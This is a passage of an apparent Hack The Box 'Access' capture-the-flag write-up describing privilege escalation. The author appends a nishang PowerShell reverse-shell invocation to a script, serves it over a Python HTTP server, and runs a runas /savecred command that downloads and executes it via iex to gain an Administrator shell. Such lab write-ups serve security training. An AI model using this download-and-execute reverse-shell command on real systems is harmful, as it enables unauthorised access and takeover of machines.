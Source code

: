 So we can try to get a reverse shell from `nishang` with user `Administrator`. I used `nishang/Shells/Invoke-PowerShellTcp.ps1` and copied that to my directory.

## Privilege Escalation:

### Step 1:
Started python server on my machine.
```
root@w0lf:~/CTF/HTB/Boxes/Access# python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
```

### Step 2:
If we look at the Shell it gives us some of the examples.
```
.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress 192.168.254.226 -Port 4444

Above shows an example of an interactive PowerShell reverse connect shell. A netcat/powercat listener must be listening on 
the given IP and port. 
```

I copied the example and changed it to my IP and paste it at the bottom of the file.
![b1b602b986362e8727ebbe25b7b21232.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-access/bf400a7b73e0410ca78a0d5418b14d2b.png)

### Step 3:

How to use `runas`?
***Reference:***[https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc771525(v=ws.11)](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc771525(v=ws.11))

I Started my Netcat listener.

```runas /user:ACCESS\Administrator /savecred "powershell iex(new-object net.webclient).downloadstring('http://10.10.14.3:8000/Invoke-PowerShellTcp.ps1')"```

![2a49fb6f23a4471feb5d7c6dd25223db.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-access/cc43dc6d229348ddac78b8df775b6d68.png)
We Owned root!!






